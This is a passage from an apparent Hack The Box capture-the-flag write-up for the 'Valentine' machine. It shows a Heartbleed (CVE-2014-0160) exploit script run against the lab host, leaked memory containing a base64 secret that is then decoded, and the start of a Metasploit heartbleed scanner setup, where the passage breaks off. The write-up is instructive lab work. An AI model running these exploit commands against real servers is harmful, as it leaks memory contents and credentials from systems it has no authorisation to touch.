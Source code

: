                         returned data on screen.
{% endhighlight %}

Now we can use this tool to simply get the leaked data. 

{% highlight bash %}
root@kali:~/hackthebox/valentine# python heartbleed.py 10.10.10.79 

defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

##################################################################
Connecting to: 10.10.10.79:443, 1 times
Sending Client Hello for TLSv1.0
Received Server Hello for TLSv1.0

WARNING: 10.10.10.79:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 1 of 1
##################################################################

.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==K.Yv...&...=.l....L
{% endhighlight %}

We can see that there is a `$text` variable encoded in base64.

{% highlight bash %}
root@kali:~/hackthebox/valentine# echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d
heartbleedbelievethehype
{% endhighlight %}

Some text, let's save it for later and move to `metasploit` in order to use their scanner. 

{% highlight bash %}
root@kali:~/hackthebox/valentine# msfconsole

msf > use auxiliary/scanner/ssl/openssl_heartbleed
msf auxiliary(scanner/ssl/openssl_heartbleed) > show options

Module options (auxiliary/scanner/ssl/openssl_heartbleed):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   DUMPFILTER                         no        Pattern to filter leaked memory before storing
   MAX_KEYTRIES      50               yes       Max tries to dump key
   RESPONSE_TIMEOUT  10               yes       Number of seconds to wait for a server response
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             443              yes       The target port (TCP)
   STATUS_EVERY      5                yes       How many retries until status
   THREADS           1                yes       The number of concurrent threads
   TLS_CALLBACK      None             yes       Protocol to use, "None" to use raw TLS sockets (Accepted: None, SMTP, IMAP, JABBER, POP3, FTP, POSTGRES)
   TLS_VERSION       1.0              yes       TLS/SSL version to use (Accepted: SSLv3, 1.0, 1.1, 1.2)


Auxiliary action:

   Name  Description
   ----  -----------
   SCAN  Check hosts for vulnerability


msf auxiliary(scanner/ssl/openssl_heartbleed) > set RHOSTS 10.10.10.79